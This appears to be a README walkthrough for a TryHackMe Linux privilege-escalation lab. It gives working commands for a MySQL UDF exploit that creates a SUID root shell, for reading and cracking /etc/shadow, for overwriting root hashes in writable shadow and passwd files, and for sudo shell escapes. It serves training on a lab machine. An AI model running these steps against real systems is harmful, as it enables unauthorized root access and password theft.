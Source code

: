 # TRYHACKME : Linux PrivEsc
Deploy the target machine, and enter the following ssh credentials: `user:password321`

## Service Exploits
Simply copy in consecutive order the ff commands:
```
cd /home/user/tools/mysql-udf
```
Compiler the following file `raptor_udf2.c`
```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
Connect to the mysql with no password:
```
mysql -u root
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:
```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
whoami  // voila root access
```


## Weak File Permissions - Readable /etc/shadow
```
ls -l /etc/shadow
cat /etc/shadow
```
Save the root password hash to a txt file. The hash is found between the first and second colon.

Then run John the Ripper or use online resources to crack it.
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
The type of hashing algorithm used will appear during John the Ripper cracking.

## Weak File Permissions - Writable /etc/shadow
If the file is writable, we can change the root password by generating a new hash password (same hashing algorithm as the previous password), and replacing the existing hash.
```
mkpasswd -m sha-512 newpasswordhere
```
Then edit the /etc/shadow and replace the old hash password.

Switch to root user.
```
su
```

## Weak File Permission - Writable /etc/passwd
Some old versions of linux stores user password hashes. 

If the `/etc/passwd` happens to be writable, we can generate a hash and store it within the first and second colon.

Generate new hash password:
```
openssl passwd newpasswordhere
```

Then edit the root in `/etc/passwd`. Place the hash between the first and second hash.

After that you can switch to the root user.


```
su
```

## Sudo - Shell Escape Sequences

List all programs user has sudo permissions.

user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

```
User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```

You can look up in [GTFOBins](https://gtfobins.github.io/) each directory and their exploit command to access root, except `/apache2`.

## Sudo - Environmental Variables
